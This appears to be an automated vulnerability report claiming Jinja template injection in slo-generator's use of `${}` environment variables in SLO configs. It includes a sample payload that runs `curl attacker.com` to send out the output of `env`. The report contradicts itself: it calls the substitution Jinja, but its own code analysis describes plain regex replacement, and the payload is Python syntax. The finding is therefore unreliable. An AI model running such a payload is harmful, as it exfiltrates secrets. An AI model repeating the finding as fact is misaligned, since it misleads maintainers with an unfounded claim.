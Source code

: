 ### Jinja Template Injection in SLO Configurations

- **Description:**
    1. The `slo-generator` allows users to use environment variables within SLO configuration files using the `${MY_ENV_VAR}` syntax.
    2. This syntax is processed using Jinja templating engine.
    3. If an attacker can control the content of SLO configuration files, they can inject malicious Jinja templates.
    4. When `slo-generator` processes the configuration, it renders these templates.
    5. If the Jinja environment is not properly sandboxed and if sensitive information or functions are accessible within the template context, an attacker could potentially exfiltrate data or even achieve remote code execution.
    6. For example, an attacker could inject a template like `${__import__('os').popen('curl attacker.com?data=$(env)').read()}` to execute arbitrary commands on the server or exfiltrate environment variables.

- **Impact:**
    * Information Disclosure: Attackers can exfiltrate sensitive information, including environment variables, configuration details, or data from the monitoring backend if accessible through the templating context.
    * Potential Remote Code Execution: In a worst-case scenario, if the Jinja environment is not properly sandboxed, attackers might be able to achieve remote code execution on the machine running `slo-generator`, potentially compromising the entire system.

- **Vulnerability Rank:** High

- **Currently Implemented Mitigations:**
    * None in the provided code files. The code explicitly mentions the use of environment variables in SLO configs but lacks input validation or sanitization for template injection.

- **Missing Mitigations:**
    * Input validation and sanitization: Sanitize SLO configuration files to prevent injection of malicious Jinja templates. This could involve using a safe Jinja environment with limited functionalities and disallowing access to sensitive objects or functions.
    * Sandboxing Jinja environment: Run Jinja templating in a sandboxed environment with restricted access to potentially dangerous modules and functions.
    * Principle of least privilege: Ensure that the user running `slo-generator` has minimal necessary permissions to reduce the impact of potential RCE.

- **Preconditions:**
    * The attacker must have the ability to modify or provide SLO configuration files to the `slo-generator`. This could happen if:
        * SLO configuration files are stored in a publicly accessible location.
        * The attacker has write access to the configuration file storage.
        * The `slo-generator` API is exposed and allows arbitrary users to submit SLO configurations.

- **Source Code Analysis:**
    1. File: `/code/README.md`:
       - The documentation mentions: "***Note:*** *you can use environment variables in your SLO configs by using `${MY_ENV_VAR}` syntax to avoid having sensitive data in version control. Environment variables will be replaced automatically at run time.*" This confirms the feature exists.

    2. File: `/code/slo_generator/utils.py`:
       - The `parse_config` function and its helper `replace_env_vars` are responsible for handling environment variable substitution.
       - The `replace_env_vars` function uses regular expressions to find `${}` patterns and replaces them with environment variables from `ctx` (which defaults to `os.environ`).
       - **Vulnerability:**  The code directly substitutes environment variables into the YAML content without any sanitization or escaping.
